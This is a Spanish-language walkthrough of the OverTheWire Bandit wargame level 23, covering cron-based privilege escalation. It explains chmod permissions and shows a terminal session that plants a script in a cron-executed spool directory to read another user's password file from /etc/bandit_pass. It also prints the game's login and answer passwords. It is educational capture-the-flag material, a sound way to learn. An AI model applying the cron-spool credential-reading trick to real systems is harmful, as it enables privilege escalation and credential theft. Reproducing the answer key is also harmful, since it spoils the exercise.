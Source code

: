 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos Acceso 
Server :  ssh bandit23@bandit.labs.overthewire.org -p 2220
Password : 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
## Comandos

- **`chmod`**:
    
    - `chmod` es un comando que se usa para cambiar los permisos de acceso a archivos y directorios.
- **`666`**:
    
    - Este es un valor en octal que especifica los permisos para el archivo. Los permisos están representados por tres números, cada uno de los cuales puede tener un valor de 0 a 7. Cada dígito representa los permisos para el usuario, el grupo y otros, respectivamente.
    - El número `666` se descompone de la siguiente manera:
        - El primer `6` representa los permisos para el propietario del archivo.
        - El segundo `6` representa los permisos para el grupo del archivo.
        - El tercer `6` representa los permisos para todos los demás usuarios.
    - El número `6` en octal es una combinación de permisos de lectura (`4`) y escritura (`2`), lo que significa que el archivo tendrá permisos de lectura y escritura para todos.
## Codigo 
```
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 >
/tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls –la
ls: cannot access '–la': No such file or directory
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 10868
drwxrwxrwx   2 bandit23 bandit23     4096 Sep 14 02:25 .
drwxrwx-wt 500 root     root     11116544 Sep 14 02:26 ..
-rw-rw-rw-   1 bandit23 bandit23        0 Sep 14 02:25 password
-rwxrwxr-x   1 bandit23 bandit23       49 Sep 14 02:25 script.sh
bandit23@bandit:/tmp/kd$ date
Sat Sep 14 02:26:36 AM UTC 2024
bandit23@bandit:/tmp/kd$ ls -la
total 10868
drwxrwxrwx   2 bandit23 bandit23     4096 Sep 14 02:25 .
drwxrwx-wt 500 root     root     11116544 Sep 14 02:26 ..
-rw-rw-rw-   1 bandit23 bandit23        0 Sep 14 02:25 password
-rwxrwxr-x   1 bandit23 bandit23       49 Sep 14 02:25 script.sh
bandit23@bandit:/tmp/kd$ cat password
```

## Solución
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8